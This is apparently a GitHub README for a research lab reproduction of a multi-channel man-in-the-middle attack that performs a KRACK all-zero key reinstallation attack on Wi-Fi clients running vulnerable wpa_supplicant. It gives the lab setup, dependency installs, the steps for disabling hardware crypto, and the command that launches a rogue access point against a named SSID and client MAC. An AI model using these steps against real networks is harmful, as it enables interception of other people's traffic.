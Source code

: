 # Multi Channel Man-in-the-Middle Attacks Against Protected Wi-Fi Networks
This activity describes how to perform MC-MitM (Improved Variant) attack using channel switch announcements.To execute this attack, two important the packeges such as python2.7 and scapy 2.3.3 are required.Note that this attack will not be successful with latest scapy versions 2.4.3. In this case it is advisble to remove higher versions of scapy and then downgrade to 2.3.3. In particular, this MC-MitM attack ultimately peforms a key reinstalltion attack on Linux machine. More specifically, the all-zero encryption key attack on vulnerable wpa_supplicants (2.4 or below) that comes with various Linux distributions. Please, use [this tool](https://github.com/lucascouto/krackattacks-scripts) to verify the client is vunarable to the attack or not. 

## Attack Environment Setup
<p align="center">
  <img src="https://github.com/maneshthankappan/Multi-Channel-Man-in-the-Middle-Attacks-Against-Protected-Wi-Fi-Networks-By-Improved-Variant/blob/main/MC-MitM-Improved%20Variant-Attack%20Setup.jpeg">
</p>

* Attacker Machine
  * HP Elite 8300 SFF Quad Core
  * OS: Kali Linux 2019.4(5.3.0-kali2-amd64)
  * Two Wi-Fi Cards: Qualcomm Atheros Communications AR9271. Driver: ath9k_htc
  * Android smartphone connected via usb to provide 4g Internet

* Client or Victim Machine:
  * Dell Inspiron 15 30000 series
  * OS: Ubuntu 17.04
  * wpa_supplicant v2.4 (2.4-0ubuntu6 am64)

* Access Point:
  * D-Link AX 1500 Wi-Fi 6 Router
  * Hardware Version: A2
  * Firmware Version: 1.08
  * Configured with 50% TX power and channel 1
  
## Prerequisites and Installation Procedure
### 1. Install the following dependencies on Kali Linux:
```
$sudo apt update
$sudo apt install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-pycryptodome
```
### 2. Install the following scapy package
Now-a-days,kali linux comes with latest version of scapy (version 2.4.3 or above).This attack script will not work on this new scapy version. Therefore, as pointed earlier,uninstall the scapy first and reinstall scapy as described below. 
```
$ pip install scapy==2.3.3
```
If the above command gives error, please try following procedure to install scapy 2.3.3
```
1. Go to https://pypi.org/project/scapy/2.3.3/#files
2. Download "scapy-2.3.3.tgz (1.4 MB)" folder
3. Unzip/extract the folder
4. Open a terminal in scapy-2.3.3 folder
5. Type sudo python2.7 setup.py install
```
### 3. Install the following python package for MC-MitM attack setup
```
$pip install --user mitm_channel_based
```
If the above command gives error, please try following procedure to install MC-MitM package
```
1. Go to https://pypi.org/project/mitm-channel-based/#description
2. Click on "Download files" link
3. Download "mitm_channel_based-0.0.5.tar.gz (11.7 kB)" file
4. Go to your download folder and unzip the above folder
5. Open a terminal in "mitm_channel_based-0.0.5" folder
6. Type sudo python2.7 setup.py install
```
### 4. Warnings
Perform the following before executing the attack
```
1. Goto "krackattack-all-zero-tk-key-master" folder
2. Execute the script "./disable-hwcrypto.sh" to disable hardware encryption
3. Reboot the system
4. Verify whether the flag (nohwcrypt = "1") has been set using the command "systool -vm ath9k_htc"
5. Disable Wi-Fi or type sudo nmcli radio wifi
6. Type sudo rfkill unblock wifi
```
## Tool Usage
 The attack tool can be executed using follwoing command line arguments. Download attack folder from the link (Under construction). 

 ```
 $sudo ./krack_all_zero_tk.py wlan1 wlan0 eth0 "Manesh_WiFi" -t e4:02:9b:cd:3b:92
 ```
 ### Below are the details of wireless interfaces
 
 * `wlan1`: interface that listens and injects packets on the real channel
 * `wlan0`: interface that runs the Rogue AP
 * `eth0`: interface providing internet access to the victim
 * `"Manesh_WiFi"`: SSID of the target network
 * `-t e4:02:9b:cd:3b:92`: MAC address of the attacked client
 * You can see many other options running `./krackattack/krack_all_zero_tk.py -h`!
 

 ### Files Generated
 After running the script for the first time, some new files will be generated:
 ```
 * `dnsmasq.conf`: configuration file for DHCP and DNS services
 * `dnsmasq_log`: output from dnsmasq
 * `hostapd_rogue.conf`: configuration file for the rogue ap clone from the real ap
 * `hostapd_rogue.log`: output from hostapd_rogue
 * `rogue_ap_capture.pcap`: file containing packets capture from the rogue ap interface
 ```
 ### Attack Demonstration
  [![Watch the video][(https://img.youtube.com/vi/dQw4w9WgXcQ/0.jpg](https://github.com/maneshthankappan/Multi-Channel-Man-in-the-Middle-Attacks-Against-Protected-Wi-Fi-Networks-By-Improved-Variant/blob/main/thumb.jpg))](https://www.youtube.com/watch?v=axqbioyjom0&t=345s "Click to view the video on YouTube")

  ### References
  * https://github.com/vanhoefm/krackattacks-scripts
  * https://github.com/vanhoefm/fragattacks
  * https://github.com/lucascouto/mitm-channel-based-package
  * https://www.krackattacks.com/
  * https://www.fragattacks.com/#tools
  * https://papers.mathyvanhoef.com/ccs2018.pdf
